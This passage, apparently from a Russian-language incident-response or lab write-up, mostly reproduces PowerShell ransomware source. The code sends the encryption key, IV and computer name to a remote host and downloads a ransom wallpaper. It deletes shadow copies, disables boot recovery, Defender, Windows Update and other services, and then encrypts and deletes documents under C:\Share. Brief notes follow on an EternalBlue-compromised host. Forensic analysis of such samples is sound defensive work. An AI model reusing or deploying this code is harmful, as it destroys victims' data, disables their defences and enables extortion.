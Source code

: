     $URL="http://$IP/key=$Key&iv=$IV&pc=$env:computername";
    try { Invoke-WebRequest $URL } catch {
        $_.Exception.Response.StatusCode.Value__}

    $background = "http://$IP/wall.jpg"
    Invoke-WebRequest -Uri $background -OutFile "/users/$env:USERNAME/wall.jpg"
    Start-Sleep -s 2
    $wallpaper = "C:/users/$env:USERNAME/wall.jpg"
    Set-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name Wallpaper -value "$wallpaper"
    Set-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name WallpaperStyle -value "10"
    Start-Sleep -s 2
    rundll32.exe user32.dll, UpdatePerUserSystemParameters, 1 , $False

    vssadmin delete shadows /all /quiet;
    spsv vss -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='vss'").StartMode) -ne "Disabled"){
    set-service vss -StartupType Disabled};

    bcdedit /set recoveryenabled No|Out-Null;
    bcdedit /set bootstatuspolicy ignoreallfailures|Out-Null;

    spsv Wscsvc -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='Wscsvc'").StartMode) -ne "Disabled"){
    set-service Wscsvc -StartupType Disabled};
    spsv WinDefend -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='WinDefend'").StartMode) -ne "Disabled"){
    set-service WinDefend -StartupType Disabled};
    spsv Wuauserv -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='Wuauserv'").StartMode) -ne "Disabled"){
    set-service Wuauserv -StartupType Disabled};
    spsv BITS -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='BITS'").StartMode) -ne "Disabled"){
    set-service BITS -StartupType Disabled};
    spsv ERSvc -ErrorAction SilentlyContinue;
    spsv WerSvc -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='WerSvc'").StartMode) -ne "Disabled"){
    set-service WerSvc -StartupType Disabled};

    Write-Output "Encryption phase" 

    $encryptor=$aesManaged.CreateEncryptor();
    $directory = "C:\Share"
    $files=gci $directory -Recurse -Include *.txt,*.pdf,*.docx,*.doc,*.jpg;
    foreach($file in $files) {
        $bytes=[System.IO.File]::ReadAllBytes($($file.FullName));
        $encryptedData=$encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
        [byte[]] $fullData=$aesManaged.IV + $encryptedData;
        [System.IO.File]::WriteAllBytes($($file.FullName+".crpt"),$fullData);
        Remove-Item $file;
    }
}
```


В папке InterfaceSSH лежит папка с исходным кодом программы OIK-CLIENT. При запуске выдает ошибку. 

### 2.7. 10.33.4.8 (Eternal Blue)

Найден файл winlogon.txt (даты - 23-28 февраля, это точно злоумышленник)

```
